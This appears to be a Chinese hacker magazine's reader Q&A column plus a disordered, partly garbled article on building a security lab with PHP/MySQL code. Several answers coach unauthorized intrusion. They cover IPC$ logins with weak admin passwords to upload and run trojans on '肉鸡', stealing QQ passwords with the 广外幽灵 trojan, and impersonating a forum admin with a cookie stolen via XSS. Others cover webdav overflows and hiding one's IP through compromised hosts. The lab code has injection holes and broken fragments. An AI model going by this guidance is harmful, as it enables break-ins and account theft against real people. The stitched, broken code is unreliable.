你可以安装本期光盘中的流光过期补丁（光盘\6\Fluxay47.rar），也可以参考本期杂志上的《让流光 IV 永远不过期的简单方法及分析》一文，你一定会有所帮助的。

我的注册表被改了，我怎么才能恢复它呢？

如果你的系统是 9x/ME 的，启动后按 F8 直接进入 DOS 模式，下输入 `scanreg/restore` 可以选择恢复，选择出现问题前的日期就可以了。2000/XP 中一般在启动计算机看见“正在启动 2000/XP”的信息后，按 F8 键，然后在出现的界面中选择“最后一次正确的配置”然后回车启动系统，注册表将被还原到上次成功启动计算机时候的状态。

为什么我安装 Windows XP 的时候特别慢？

如果要是特别慢的话，你可以尝试在安装之前加载 SMARTDRV.EXE 文件，这个文件在 Win98 的 `C:\Windows` 下可以找到。

请问在我系统下有一个 win386.swp 文件，特别大而且删不掉了，它到底是做什么的呀？

win386.swp 是虚拟内存文件，在 9X 和 ME 的系统中存在，你可以在系统属性中来设定它的大小。物理内存在 256MB 以上的，建议最小值设为物理内存数加上 12；内存在 128MB 或者更少的，建议最小值为物理内存的 1.75 倍；在 128MB 到 256MB 之间的设置为 1.5 倍。也可以禁止使用。系统默认是自己管理，你可以在 DOS 下用 del 命令删除。

呆呆虫你好，我想询问一下我在做磁盘整理的时候，总是到一半时重新开始怎么办？

这是因为计算机上仍有一些在后台运行的应用软件或者驱动程序的影响，某个程序一直要写资料到硬盘上，磁盘整理程序就没有办法完成整理工作。你要检查你的屏幕保护程序是否关闭，电源管理是否关闭，防毒软件是否关闭了。

呆呆虫你好，我是菜鸟，我的 98 系统经常坏掉，所以我经常要重装。听说有一种快速安装 98 的方法，但是我不知道，请指点。

你可以在安装 98 的时候在 setup 后面加一些相应的参数，这样可以减少你的安装时间（`setup /id /ih /ie /im /is /iv`）。  
注：`/ie` 安装中不创建启动盘；`/im` 忽略对常规内存检查；`/is` 不检查磁盘；`/iv` 不运行公告牌内容；`/id` 忽略磁盘空间检查；`/ih` 跳过注册表检查。

我在浏览了一些黑客网站后，任务栏的属性点不开了，怎么办？

运行 regedit 进入注册表编辑器，找到如下分支：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，在右窗格内找到 DWORD 值 `"NoSetTaskBar"`，设置为 0 或删除这一项。

呆呆虫，我的系统是 XP，由于一些问题我经常是直接关掉计算机或者是重启，所以下次启动 XP 的时候总是要等待很长的时间，有什么办法能快一点自检呢？

XP 不正常关机，下次启动的时候系统就会进行磁盘扫描，可是都要等待 10 秒钟的时间。首先运行“cmd”进入 DOS 窗口，然后输入 `chkntfs /t:0` 回车就可以了，作用是将时间缩短到 0 秒。

呆呆虫你好，我有一个问题想请你帮助，为什么我的 IE 老是发送错误报告，怎么才能禁止它呢？

- IE 5.x：单击“开始”→“设置”→“控制面板”→“添加/删除程序”，在安装和删除目录下选中“Internet Explorer Error Reporting”，然后点击“添加/删除”按钮。  
- Windows 9X/Me/NT/2000 下 IE 6.0：打开“注册表编辑器”，找到 `HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main`，在右侧窗格中创建名为 IEWatsonEnabled 的双字节值（DWORD，16 进制），将其值设为 0。  
- Windows XP 下 IE 6.0：单击“开始”→“控制面板”→“系统”→“高级”，单击“错误报告”按钮，然后选中“禁用错误报告”，下面的“但在发生严重错误时通知我”可以选中。

请问呆呆虫，我能不能用 Win2K 系统访问控制 UNIX/Linux 的主机呢？我可以用什么工具控制它？

Linux 主机和 Unix 主机使用的都是 TCP/IP 协议，同样 Windows NT/2K 等操作系统也是支持 TCP/IP 协议的，所以我们可以通过成熟的 FTP 或 NFS 进行交流。这样的远程控制有很多，bluefire 就是其中之一，你可以在本期光盘中找到（光盘/1/bluefire05.rar）。

呆呆虫你好，我想请问一下如何修改 Win2000 终端的 3389 连接端口，需要什么工具？在哪里可以找到？

```
C:\tool>c3389 \\xx.xx.xx.xx administrator pass

修改远程主机终端端口

C:\tool>c3389 \\xx.xx.xx.xx administrator pass 4489
```

这样就把默认的 3389 端口改成了 4489 端口。

呆呆虫有一个问题我一直想不明白，我们每次登录 QQ 时都不会去选记住密码，但打错密码它会说“输入密码与上次成功登录的密码不一致，是否到服务器验证？”，这说明它还是记录了 QQ 的密码，那我在哪里可以找到密码？

QQ 的密码是以加密形式处理后保存在本地的，它就像 MD5 一样是没有办法逆向破解还原的，只能通过一些手段以离线的方式登录。

呆呆虫你好，我想请问一件事情，我用 webdav 溢出一台主机的时候，出现 try offset: -57 了还没有溢出成功，我是不是还需要再等？

webdav 溢出的成功率前一时期一直很高，但并不是 100% 成功。像你这种情况，一般等到 try offset: -8 左右还不成功的话，就可以考虑放弃了。

我的机器装了两个系统，C 盘里是 2000，D 盘里是 XP。我在 2K 的网上邻居里能看到其他的机器，但是在 XP 下的网上邻居却看不到其他的机器，是什么原因呢？

## 呆呆虫问吧

首先确认你的 XP 下网络协议是否安装正确，如果你可以从“开始”→“搜索”→“计算机”然后输入对方的计算机访问到对方的话，那很有可能是你所在的工作组与大家不一样，你需要从“计算机属性”→“计算机名”中更改工作组然后重新启动你的计算机。

### 呆呆我有一些文件，都是视频媒体文件，因为不想别人看见，我将其扩展名改了，现在后缀我也忘了，有没有办法找回来？

这个问题很简单哦，现在市面上也无非就是 Windows Media Player、Real Player 和 QuickTime 几种常见的媒体播放软件，你用这三个一试着去强制打开你的这些文件，如果用 Windows Media Player 正常打开了你就把它的扩展名改成 `.mpg` 或 `.asf` 的，如果用 Real Player 正常打开了，就把扩展名改成 `.rm` 或 `.rmvb` 的，如果用 QuickTime 正常打开了就把扩展名改成 `.avi` 或 `.mov`。

### 呆呆虫，我是看了你们杂志认识你的，我想请问使用广外幽灵有没有邮箱限制？我的邮箱是 zcf20@tom.com 的可不可以用？具体要怎么填写？谢谢了。

广外幽灵为了能更好地发送含有密码的信件，所以需要 SMTP 认证的信箱才可以，你的信箱应该是 smtp.tom.com，具体填写时就在用户名和密码中填写你这个信箱的用户名和密码就可以了。本期光盘有高用户外幽灵获取 QQ 密码的动画教程（请参看光盘 `/2/gw3.exe`）。

### 呆呆虫你好，我是一个绝对的菜鸟，我有两个问题，我扫描到一个主机可以进行 IPC 连接，管理员密码是空，我连接以后想用 net user 命令添加一个用户，可是结果却是在我自己的机子上添加了一个用户，这是怎么回事呀？还有就是我向那个主机的 C 盘拷文件的时候，CMD 里明明显示拷过去了，可是我打开他的 C 盘（他的 C 盘共享），里面却没有我刚才拷过去的文件，这是怎么回事呀？

你的第一个问题应该是初来乍到者问得最多的一个问题了，IPC$ 是为了让进程间通信而开放的命名管道，并不等同于你登录了他的计算机，这个和你获得了一个 SHELL 是两回事，当你获得一个最高权限的 SHELL 你才有可能为他建立用户。至于你的第二个问题可能是由于你操作命令没有打对造成的（强烈建议你去自己的计算机 C 盘下看看有没有那个你认为刚刚 COPY 过来的文件），正确的格式应当是 `copy server.exe \\ip\c$`。

### 为什么我的计算机不能正常和对方 IPC$？总是提示错误号！

- 只有 NT/2000/XP 及以上系统才可以建立 IPC$，如果你用的是 98/ME 是没有该功能的。
- 确认你的命令没有打错。正确的命令是：`net use \\目标IP\ipc$ "密码" /user:"用户名"`，注意别多了或少了空格。当用户名和密码中不包含空格时，两边的双引号可以省略。空密码用 `""` 表示。
- 根据返回的错误号分析原因：
  - 错误号 5，拒绝访问：很可能你使用的用户不是管理员权限的。
  - 错误号 51，Windows 无法找到网络路径：网络有问题。
  - 错误号 53，找不到网络路径：IP 地址错误、目标未开机、目标 lanmanserver 服务未启动、目标有防火墙。
  - 错误号 67，找不到网络名：你的 lanmanworkstation 服务未启动，目标删除了 ipc$。
  - 错误号 1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个 ipc$，请先删除再连。
  - 错误号 1326，未知的用户名或错误密码：原因很明显，用户名和密码错误造成。
  - 错误号 1792，试图登录，但是网络登录服务没有启动：目标 NetLogon 服务未启动（连接域控会出现此情况）。
  - 错误号 2242，此用户的密码已经过期：目标有帐号策略，强制定期要求更改密码。

### 呆呆虫，我想请问怎样打开目标的 IPC$？

首先你需要获得一个不依赖于 ipc$ 的 shell，比如 SQL 的 cmd 扩展、telnet、木马等，当然这 shell 必须是 Admin 权限的。然后你可以使用 shell 执行命令 `net share ipc$` 来开放目标的 ipc$。ipc$ 能否使用还有很多条件，请确认相关服务都已运行，没有就启动它，还是不行的话说明对方很可能装有防火墙。

### 我用 X-Scan 扫到了一台主机的管理员弱口令，当我用 IPC$ 连接上去，然后我还能做什么？

能使用管理员权限的帐号成功和目标连接 IPC$，表示你可以从对方在线做深入“交流”了。你可以使用各种命令行为你的工作取得目标信息，管理目标的进程和服务等。如果目标开放了默认共享（没开你就帮他开），你就可以上传木马并运行。也可以用 tftp、ftp 的办法上传，像 dwrcc、VNC、RemoteAdmin 等工具还具有直接控制屏幕的功能，如果是 2000 Server，还可以考虑开启终端服务方便控制。总之，我们能做的很多。

### 呆呆虫，为什么我安装流光后总是提示过期呢？

如果你安装的是我们光盘中的流光 4.7 版，那你可以在同一个压缩包中找到流光的过期补丁，安装后就可以正常使用了；如果你安装的是流光 5 测试版的话，你需要在安装前把系统日期调前一些，如 2002 年，这样安装后就没有什么问题了。

### 呆呆虫你好，我初次使用流光，遇到一个问题，安装“Fluxay Sensor”是怎么回事？怎么设置？谢谢！

安装“Fluxay Sensor”可是流光的一个独有特色哦，这么做的目的是把一些扫描组件安装在你的肉鸡上，这样你在扫描的时候别人就很难发现你的真实 IP 了，当然安装“Fluxay Sensor”时需要有对方主机的管理员帐号和密码，这些详细的设置方法都可以在流光自带的帮助里找到。

### 我的 Outlook Express 软件能正常接收邮件，却无法发送邮件，这是为什么？

有些服务器发送邮件是需要通过服务器身份认证的，你可以在你 Outlook Express 帐户属性—“服务器”—勾选“我的服务器要求身份验证”，然后选择“设置”里面来填写你的用户名和密码就可以了。还有一种可能就是你的服务器不支持 SMTP 发送服务，如 Sohu 的免费邮箱只可以在 Web 上直接发送。

### 我的在安装计算机显卡驱动的时候，不小心装成了别的牌子的驱动，在开机时就进不去了，我的机器是 98 系统，进到 98 界面时就死掉了。

在开机的时候看到“starting windows...”的时候，按 F8，然后进入安全模式的 Windows，从设备管理器中把那个错误的显示适配器删除，删掉，然后重新启动安装正确的驱动程序。

### 问：呆呆，我用跨站脚本成功地得到了一个论坛管理员的 Cookie，然后我该怎么办呢？

答：如果你只是想用别人的名字发发帖子的话，就用 iecv.exe 这类编辑 Cookie 的小软件把你所在这个论坛的 Cookie 替换成你得到的那串 Cookie，然后关掉所有的浏览器，再次访问论坛时你会发现已经是以他的身份登录了。如果你要破解对方密码，可以使用 Md5.exe 这样的工具（iecv.exe 可在 2003.06 的光盘中找到，Md5.exe 可在论坛或 hackerxfiles.net 找到）。

### 问：我不知道为什么我的浏览器突然不显示 FLASH 了，现在连音乐都不能播放了，我怎么才能把它修改回来呢？

答：依次点击“工具”→“Internet 选项”→“高级”→“恢复默认值”。

### 问：呆呆虫，我看到很多攻击测试的脚本都是 .PL 的，在我的计算机上运行根本没反应，我要怎么才能运行它呀？

答：你需要先安装 ActivePerl，它是一个 Windows 环境下的 PERL 语言解释器，或者使用 Perl2Exe 先将你的 `.PL` 转换成 `.EXE` 后再运行。

### 问：我的 IE 不能开新的窗口了，在网页中打不开第二层链接，我装的是 Win98，这个是什么原因呢？

答：不知道你的计算机有没有安装过迷你版的 ACDSEE5.0？有时候会和这个软件造成冲突，或者尝试把 IE5.0 升级到 6.0 试试。

### 问：请问我在 telnet 肉鸡后如何知道它在它的内网的 IP？内网的其它一台主机 IP 如果知道为 192.168.0.2，对应的网络 IP 如何知道是多少？

答：`ipconfig /all` 可以看到内网 IP；若局域网采用 NAT，可能只能看到公网 IP。可通过 `ping -a 192.168.0.2` 得到主机名，再 `net view` 枚举内网活动主机，最后结合主机名与 ping 结果推断对应公网/内网关系。

| 语言 | 注释写法 |
|---|---|
| html | `<!-- 注释 -->` |
| vbscript | `' 注释` |
| javascript | `// 注释` |

### 问：总是听别人说 cookie，那么什么是 cookie？

答：cookie 是 Web 服务器用来记录你信息、存放在本地的小文本文件。Win98 常在 `D:\windows\cookies`，Win2K 常在 `D:\Documents and Settings\%用户名%\Cookies`。单个 cookie 文件一般不超过 4KB。

### 问：什么是肉鸡？

答：肉鸡一般指被入侵并被远程控制的计算机，可能是 Win、Unix/Linux 等系统，也可能是公司服务器或网站服务器。常见语境里也指开了 3389 端口的 Win2K 服务器等。

### 问：怎样可以防止数据库被下载啊？

答：可以把数据库后缀改成 asp、asa，或把文件名改成以 `#` 开头，以减少被直接访问下载的风险；并注意修改数据库连接路径。

### 问：请问呆呆，怎么把自己加为好友呢？

答：在“黑名单”下右击选择“添加坏人名单”，输入自己的 QQ，添加后再把该 QQ 拖进好友名单即可（部分版本不适用）。

### 问：网吧的机器系统盘被锁了，运行不了 DOS，但其他磁盘还可以进，我该怎么用 webdavx3 呢？

答：可在其他盘新建文本文件，写入 `webdavx3 192.168.0.1` 后保存为 `webdavx3.bat` 运行；注意把 `webdavx3.bat` 与 `webdavx3.exe` 放在同一目录。

### 问：我的 QQ 会自动向别人发送消息，是不是中病毒了？我该怎么办？

答：基本是中木马/病毒了，不必过慌。可用杀毒软件查杀，并参考安全论坛中的清除方法。

### 问：我用远程终端登录了肉鸡，我该怎么打开它的任务管理器呢？用 Ctrl+Alt+Del 不行！

答：你可以按 `Ctrl+Alt+End`，然后选择任务管理器；也可以右击状态栏选择任务管理器。

### 问：呆呆虫，我是一个菜鸟，什么扫描器适合我呢？

答：可从基础扫描器开始，如 X-Scan 2.3；进阶可了解流光、X-WAY 等工具，功能更强但使用复杂一些。

### 问：在 Win2000 下，我要把一个 E 盘分成两个盘该怎么办？

答：先备份 E 盘文件到其他盘，再到“控制面板 > 管理工具 > 计算机管理 > 磁盘管理”中删除该逻辑驱动器，重新创建新的逻辑驱动器并按需要分配空间，即可拆分为两个分区。

## 技术攻防之电子空间制衡性建设实验

—— 网络攻防实验室构建

某天星

闲暇时阅读《Argon File》的时候，一则关于计算机奇迹（magic）的黑客轶事吸引了我的注意，作者 Guy L. Steele Jr. 叙述一个神奇的经历：他在 MIT AI 实验室的 PDP-10 机柜附近发现一个来历不明的小交换机……因此把这个交换机称为“奇迹（magic）”。

在此叙述这个故事原由的目的不是为了提倡“计算机迷信”的观点，而是一种羡慕的情怀……作为一个计算机 hacker 文化传播者，我也非常希望有自己的网络实验室和研究伙伴。

随着网络入侵与防御技术的不断升级，网络科学技术迅猛发展……因此在土豆先生和我几次讨论后，有了产生此文的初衷。

实验室最初的含义依托某种理论和知识，借助可获得和可利用的工具进行实际操作、研究、证明理论依据，并发展和创造新的知识体系和理论的活动空间……内容通俗易懂，可操作性强。

> 10X 证言：本文节选较长，强调针对初学者的应用软件、环境（VMware、MySQL 等）与开源配置，目标是构建可实践的个人实验路径。

### 1、环境构建

一般现在家用 PC，拥有 P4 系列芯片、512M 内存以及较大容量硬盘是很普遍的配置，这为实现个人空间安全实验室奠定了良好的硬件基础……根据需求设计模型框图如图 1。


图 1

### 2、实现细则

#### 个人 KB 库建设

使用经济、廉价的 MySQL 作为个人 KB 库后台存储数据库，支持整个 KB 库的录入与知识检索……建立数据库管理系统，便于 KB 数据后台管理和查询。

**数据库快速建立步骤：**

**MySQL 的安装**

解压 `attack_lab\person` 包中附带的 MySQL 压缩包到硬盘应目录，比如 `C:\mylab\mysql`。  
编辑 `autoexec.bat` 文件：

`set PATH=%PATH%;c:\mylab\mysql\bin`

运行数据库启动管理程序 `c:\winmysqladmin`。

出现设置 MySQL 连接管理的初始化对话框，设置需要的用户名和密码，比如：username root，password rootpass 等（如图 2）。


图 2

登录后在系统右下角会出现一个类似“交通红绿灯”的启动图标，选择“show me”，则出现数据库服务器信息查看对话框（如图 3）。


图 3


图 4

使用 WinMySQL 作为数据库的启动管理程序，非常实用方便。  
安装 `attack_lab\person` 中附带的 php 应用程序，当提示选择服务器类型，选择 IIS 4 or Higher（这里使用 W2K 自带的 IIS5.0 是非常便利，不需要再安装任何 WEB 服务器软件），解压 `attack_lab\person` 中附带的 phpMyadmin 至相应目录，例如 `c:\mylab\phpMyadmin`；配置 IIS 虚拟目录，并发布 `c:\mylab\phpMyadmin`。

在浏览器输入：`http://localhost/personlab/index.php`（如图 4），精良小巧的 MySQL 支持中文显示，而且具有良好的帮助说明链接。至此，整个数据管理平台建立完毕。

KB 库设计原则根据数据库中所存储知识性文章可分为主题、作者、摘要、内容、时间和全文检索支持的相关字段，因此建库脚本如下（有兴趣的朋友还可把文章进行诸如网络攻击、系统等类型分类扩建库脚本）。

```sql
-- KB.sql --
create database mykb;
use mykb;
CREATE TABLE tb_mykb (
  kb_title VARCHAR(56) NOT NULL,
  kb_author VARCHAR(20) DEFAULT 'unknown',
  kb_abstract VARCHAR(255) DEFAULT 'unknown',
  kb_context TEXT NOT NULL,
  kb_time DATETIME DEFAULT 'unknown',
  FULLTEXT(kb_title, kb_author, kb_abstract, kb_context)
);
-- KB.sql end --
```

运行 `mysql -u root -p < KB.sql`。

使用 phpMyadmin 作为简易的检索和发布信息，具体实现如下：

- 数据录入（如图 5）


图 5

- KB 库知识检索（如图 6）


图 6

- KB 库检索界面（如图 7）

使用 phpMyadmin 做信息发布检索实际上是个偷懒的概念，这需要对数据库语言非常熟悉，然而 Myadmin 本身携带了丰富的参考文档，因此掌握其管理方式变得轻松惬意很多。


图 7


#### 工具软件库建设

其数据库建设方法与 KB 库类似。建立工具软件库需要便于用户个人增加、浏览和检索自己软件仓库所搜集的软件工具。针对个人实验室，软件种类虽多但无需过细分类。根据该需求，建立用户数据库表定义如下：

```sql
-- TOOLS.sql
CREATE DATABASE mytool;
USE mytools;
CREATE TABLE tb_tools(
  fd_title VARCHAR(32) NOT NULL,
  fd_platform VARCHAR(15) NOT NULL,
  fd_description TEXT NOT NULL,
  fd_path VARCHAR(64) NOT NULL,
  fd_date DATETIME NOT NULL
);
```

使用：`mysql -uroot < TOOLS.sql`

软件信息录入页面如下：

```php
<!-- post.php -->
<html>
<head><title>软件信息录入</title></head>
<body>
<?php
mysql_connect('localhost','root','***');
mysql_select_db('mytools');
if($title=='' || $platform=='' || $description=='' || $path=='') {
  echo '<center><h1>软件信息录入</h1></center>';
  // 表单：title / platform / description / link / path
}
?>
</body>
</html>
```

#### MySQL 检索技巧

逻辑全文检索支持下面的操作符：

- 一个词头的加号表示该词必须出现在每个返回的记录中；
- 一个词头的减号表示该词必须不出现在返回记录中；
- 无符号词按相关度参与排序；
- `<>` 调整词的相关性贡献；
- `()` 用于对子表达式分组；
- `~` 表示降低该词相关性但不排除记录；
- `*` 表示通配前缀匹配。

示例包括：`apple banana`、`+apple +juice`、`+apple -macintosh`、`+apple +(>pie <strudel)` 等。

### 第一部分 个人空间安全实验室

林林总总在网络里总碰到一些网络爱好者问我关于远程溢出的实现、跳板架设、IP 欺骗等攻击思维方式……因此建立一个个人攻击实验室的普通而有意义。

## 软件信息录入


附件：如果软件存放于本地，则只需要填明本地软件路径及其软件名，如：`c:\mytools\winzip.exe`。如果软件是远程链接，则在软件下载地址填入下载地址，在存放位置里指定目录，如：`c:\mytools`，返回工具仓库浏览。

图8

本程序只是简单地实现了信息录入和远程下载的功能，没有考虑文件读写时候的错误处理提示，有兴趣的读者可以自己独立完成此部分。由于是针对个人使用，因此并没有考虑任何安全性机制问题。此脚本不可放置公网进行应用，否则将带来危害。

由于本程序很粗糙，并且简单易懂，稍微有 PHP 基础的读者便能理解，所以不再做任何注释。

### 软件信息浏览页面

```php
view.php
<?
Mysql_connect("localhost","root","");
Mysql_select_db("mytools");

$query="select count(*) from tb_tools";
$result=mysql_query($query);
//每页显示12条记录
$array=mysql_fetch_array($result);
$sum=$array['count(*)'];
$pagenum=intval($sum/12);
?>
<html>
<head>
<title>软件仓库浏览</title>
<body>
<center><h1>软件列表</h1></center>
<table width=100%>
<tr>
Echo "<td width=88%>目前软件仓库有";
Echo "$sum"."个软件</td>";
?>
...
</table>
```

```php
...
<input type=submit value=提交><input type=reset value=重写>
</form>

附件：
如果软件存放于本地，则只需要指明本地软件路径及其软件名，如：
c:\mytools\winzip.exe
如果软件是远程链接，则在软件下载地址填入下载地址，在存放位置里指定目录，如：c:\mytools

else{
  // 如果已有相同软件则提示用户
  $query="select fd_title from tb_tools where fd_title='$title'";
  if(mysql_query($query))
    echo "相同软件已经存储于你的工具库";
  else{
    // 插入软件信息到数据库中
    $time=date("Y-m-d H:i:s");
    $query="insert into tb_tools values(...)";
    if($link){
      // 下载并写入
      $fp=fopen($link,'rb');
      $srcfile=fread($fp,filesize($filename));
      fclose($fp);
      $dstfile=fopen($file,"w");
      fwrite($dstfile,$srcfile);
      fclose($dstfile);
    }
  }
}
?>
</body>
</html>
```

截图如图8。

```php
$query="select fd_title,fd_platform,fd_path from tb_tools order by fd_date";
$result=mysql_query($query);
$numaccount=mysql_num_rows($result);

if($numaccount==0){ echo "目前没有软件工具信息存放"; }
for($i=0;$i<$numaccount;$i++){
  $entry=mysql_fetch_array($result);
  echo "<tr><td width=25% nowrap><a href='info.php?title='".$entry['fd_title']."'>'".$entry['fd_title']."</a></td>";
  echo "<td width=25% nowrap>".$entry['fd_platform']."</td>";
  echo "<td width=50% nowrap><a href='file:///".$entry['fd_path']."'>".$entry['fd_path']."</a></td></tr>";
}
...
```

```php
<tr>
  echo "<td width=20%>".$info['fd_title']."</td>";
  echo "<td width=20%>".$info['fd_platform']."</td>";
  echo "<td width=40%>".$info['fd_path']."</td>";
  echo "<td width=20%>".$info['fd_date']."</td>";
</tr>
<tr><td colspan=1>软件信息描述</td>
<tr><td colspan=3>
<table border=0 width=90% cellspacing=1 cellpadding=10>
<tr><td>
  echo $info['fd_description'];
</td></tr></table>
</td></tr></table>
```

截图如图9。


图9

截图如图10。


图10

至此，工具软件库建设完毕，功能简单，有兴趣的读者可以使界面更漂亮些，功能再完善些，比如加入软件的文件大小、截图示意等。然而这几个页面脚本已经能满足个人管理工具软件库的需求。

## 虚拟机桥接构建

采用优秀的 VMware 无疑是构建这种实验环境的最好选择，关于它的介绍已经有非常多的讲解，这里只介绍其构建联网桥架的几个需要注意的地方。VMware 软件实现对各种操作系统的虚拟实现，是目前虚拟实现的优秀软件。它对网络提供三种不同的连接支持：

- 1. **网桥方式（Bridged）**：网桥可以使计算机通过本地局域网连接虚拟机。这种方式把虚拟机通过虚拟以太交换机桥接到计算机物理以太网卡上。使用网桥方式创建虚拟机后会自动建立连接，且可通过多个物理网卡桥接多个虚拟网络。
- 2. **主机适配器方式（Host-only adapter）**：允许宿主机和虚拟机之间通信，并可用于非以太网连接场景。选择该方式创建新虚拟机时，其虚拟网卡能自动创建，但通常需要代理软件实现虚拟主机与物理网卡连接。
- 3. **网络地址转换方式（NAT）**：允许使用公用 IP 地址访问外部网络。常见做法是通过 NAT 使虚拟机经由主机以太网卡、无线网卡或令牌卡接入 Internet。

### 软件信息查看

```php
// info.php
Mysql_connect("localhost","root","");
Mysql_select_db("mytools");
$query="select * from tb_tools where fd_title='".$title."'";
$result=mysql_query($query);
if(mysql_num_rows($result)){
  $info=mysql_fetch_array($result);
}
$result=mysql_query("select count(*) from tb_tools");
$arr=mysql_fetch_array($result);
$num=$arr['count(*)'];

<html><head><title>软件信息</title></head>
<body>
<table width=100% cellspacing=1 cellpadding=2>
<tr><td width=20%>软件名称</td><td width=20%>支持版本</td><td width=40%>存放路径</td><td width=20%>收录时间</td></tr>
...
```

因此采用网桥连接方式，既可降低平台建设的复杂程度；VMware 所提供的 NAT 连接方式虽然提供端口转发（Port Forwarding）的简单设置，但却无法对其所访问的服务加载安全规则设置，同时应用系统自带的过滤规则建立安全机制的难度颇大。因此采用网桥连接方式，既可降低平台建设的复杂程度，又可根据自身网络情况灵活设置网络安全规则。

VMware 实现一台虚拟以太交换机，通过虚拟交换机负责连接虚拟簇中所有虚拟网卡，并与一块真实物理网卡绑定。为能灵活运用 Linux 中 Netfilter 所带来的安全过滤机制，在真实物理系统安装两块网卡，一块使用自环水晶头构建虚拟自环网，另一块与真实物理网络环境连接，两块网卡之间使用 Netfilter 框架实现虚拟网络系统和真实网络的互访。其实现原理如图1.1所示。


实验可知，虚拟簇中平均一台提供完全服务的虚拟机所需占用内存为 128M，因此当虚拟机数为 N 时，其内存容量至少为 N×128M；每个虚拟机占用硬盘空间至少 4GB，则硬盘容量为 N×4GB；虚拟机提供高速请求服务实质是对硬盘的快速读写操作，因此要求高速的硬盘和稳定的 CPU 提供质量保障。

利用向导工具创建两个虚拟系统，选择 Bridge 网桥方式连网。这里建议在安装 Linux 操作系统时候，单独分区用于存放虚拟簇群，方便虚拟机的备份和恢复。其操作系统安装与普通操作系统安装并无二致。真实主机与虚拟主机网络自环水晶头制作方法（摘自 Log 师傅的原创小技巧）RJ45 信号收发针脚如下表1：

| 号码 | 信号 |
|---|---|
| 1 | TX+（信号发送正极针脚） |
| 2 | TX-（信号发送负极针脚） |
| 3 | RX+（信号接收正极针脚） |
| 4 | 暂时不用 |
| 5 | 暂时不用 |
| 6 | RX-（信号接收负极针脚） |
| 7 | 暂时不用 |
| 8 | 暂时不用 |

表1：RJ45 针脚信号分配表

从信号针脚分配表得知，只需要将同极性信号发送与接收针脚对接就可实现自闭环网络，即 1、3 脚和 2、6 脚分别对接。一条线缆连接 RJ-45 水晶头的 1、3 针脚，另一条线缆连接 2、6 针脚，实现虚拟网络闭环连接。

通过小型知识库（KB）、虚拟机、工具软件库管理 MySQL 和个人站点信息浏览系统简单地构建了一个个人的学习天地，然而网络资源无比丰富，仅仅靠单个人力量是无法获得更为全面的学习资料和氛围较好的讨论场所。由于此类原因的存在，使得网络出现了以安全组织为单位而建立的网络安全攻防实验室。

## 第三部分 安全组织攻击实验室

相信很多读者曾经玩过韩国著名的 hackerslab 黑客培训游戏，其新颖过关的设计和论坛热烈的讨论氛围也曾让我一度痴迷其中。无独有偶，国内著名的黑客防线目前采用奖励制的办法推出自己的攻防实验室，随着安全环境应用日益突出的网络结构，这些新兴的非盈利网络服务无疑为开放性的互联网注入新的血液。

## 1、结构设计

一般网络安全组织为了提供共同交流空间和学习讨论环境，在自愿合作的基础上会进行资源共享和学术话题讨论，而深层次的学习则通过构建自己特色的实验室进行服务和开源项目的开发。根据实验室开放性和学习性的特点，其设计结构流程图如图1.2。


整个实验室通过浏览器和命令行方式进行访问学习和实验教学，使用 Owl 建立 KB 库；丰富教学资源，提供各种攻击文献和资源链接；邮件列表服务提供注册会员能及时查收实验室定期的各类动态学习交流活动；BBS 交流系统提供对网络攻击防御各方面话题讨论的空间；具体的实验活动由 Win4Lin 虚拟有漏洞的操作系统进行细致研究；通过强大的 NS 网络模拟实验室环境实现各种网络协议的学习，并由 Nam 支持在线教学，CVS 维护 NS 实验室各种教学实验的脚本代码。

## 2、具体建设步骤

### KB 管理系统建设

网络安全组织所建立的知识库（Knowledge Database）是由多人的创作和引用而积累的各类安全研究文献和技术文章，因……

## 特别策划

此容量比对个人的 KB 建设自然需要功能更为完善的应用软件以支撑这种分布式文献收集、管理格局。Owl（KB）是一个非常精美的多用户文档存储/管理的知识库，具有简单易学的操作界面，强大的文件管理功能（支持文件上传/下载、用户文档权限管理、在线文件属性编辑和在线文件浏览等），并支持多国语言（含中文支持），适合国人使用。由于其遵守源代码开放性质，使其免费而不失精致，很适合安全组织建立自己的在线文档 KB 库。

- PostgreSQL 7.x
- MySQL 3.2x
- Apache 1.2.x、1.3.x 和 2.x
- IIS 4.x、5.x
- PHP 4.0.2 以上版本

根据要求，其基础环境：apache+php+mysql。从随机光盘获得 Owl-0.71.tar.gz，或从 http://sourceforge.net/projects/owl/ 获取最新版本。

- 1. 解压并移动文件包至 Web 根目录中  
  `mv intranet /path/to/your/html/directory`
- 2. 创建数据库  
  `mysqladmin -p create intranet`
- 3. 导入表单结构  
  `mysql -p intranet < DOCS/mysql-tables.sql`
- 4. 编辑 `/config` 目录中的 `owl.php` 文件（根据 Web 设置修改）

```php
<?php
// KB 根目录与指向目录实例
$default->owl_root_url = "/intranet";
$default->owl_fs_root  = "/var/www/html/intranet";
$default->owl_FileDir  = "/var/www/html/intranet";

// 选择语言
// b5
// Chinese
// Danish
// Deutsch
// Dutch
// English
// Francais
// Hungarian
// Italian
// NewEnglish
// Norwegian
// Portuguese
?>
```

```php
// Spanish
// 默认选择中文
$default->owl_lang = "Chinese";

// 新增表单的指针映射
$default->owl_news_table    = "news";
$default->owl_comment_table = "comment";
$default->owl_log_table     = "owl_log";

// 使用 mysql.inc 文件，指定数据库为 mysql
require("$default->owl_fs_root/phplib/db.mysql.inc");

// 数据库连接信息
$default->owl_db_user = "mysqlsadmin";
$default->owl_db_pass = "mysqlpass";
$default->owl_db_host = "localhost";
$default->owl_db_name = "intranet";
?>
```

- 5. 设置 `/Documents` 文件夹的写权限  
  `chown -R nobody.nobody Documents`
- 6. Owl 文档管理 KB 库截图浏览
  - (1) 登录界面：初始用户和管理员密码均为 `admin`，首次进入管理页面应修改用户名和密码（如图13）。


  - (2) 管理员页面截图：可修改文档管理界面的颜色、字体等；可增删特权用户和普通用户；可查看普通用户操作记录，建立审核机制；可管理公告板信息并观察 KB 库目前在线人数及相关统计信息（如图14）。


  - (3) 应用界面截图（如图15）

拥有众多的操作功能，由于操作图标按钮解释清晰，不再一一赘述功能。


图15

  - (4) 维护页面截图（如图16）

从图可知，维护页面可设置 Owl 发送邮件功能、用户注册登录、文件压缩和数据备份的其他特殊功能。


图16

## NS仿真实验室

仿真一词让我想到电影《骇客帝国》里面的虚拟现实网络环境，影片中，我们几乎不能承认自己所处的世界会是一个真实谎言。实际上这种虚拟现实就是仿真应用的一种表现形式。

